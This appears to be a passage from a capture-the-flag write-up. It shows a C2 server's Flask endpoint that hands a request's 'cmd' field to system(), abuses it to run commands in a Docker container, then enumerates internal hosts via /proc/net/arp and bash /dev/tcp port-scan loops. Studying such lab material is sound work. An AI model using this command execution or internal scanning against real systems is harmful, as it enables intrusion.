 ```python


CORS(app, resources={r"/*": {"origins": "*"}})


if __name__=="__main__":
    app.run(host="0.0.0.0", port=8000)
```

Result code 
![](Resultcode32512.png)

## Exploiting the C2

With this we can execute code on the server.
```python
@app.route(f'/api/server/exec', methods=['POST'])
def post_server_exec():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if request.json:
            cmd = request.json['cmd']
            res = system(f"{cmd}")
            return f"Command: {cmd} - Result code: {res}", 200
        else:
            return "Bad request", 400
    else:
        abort(404)
```

So back to burpsuite and:
![](gatewaytimeout.png)

and...
![](onthedocker.png)

First thing from the [[Reddish-Helped-Through]] is that 0xdf enumerates how the docker container is connected to the host by checking the `/proc/net/arp` where IPv4 is resolved.
![](enumeratethehostthrougharp.png)

We have two addresses
```bash
for port in $(seq 1 65535); do (echo Hello > /dev/tcp/172.20.0.1/$port && echo "open - $port") 2> /dev/null; done
open - 22
open - 80
```
Each having the ports open as displayed by the above and below
```bash
for port in $(seq 1 65535); do (echo Hello > /dev/tcp/172.20.0.2/$port && echo "open - $port") 2> /dev/null; done
open - 80
```
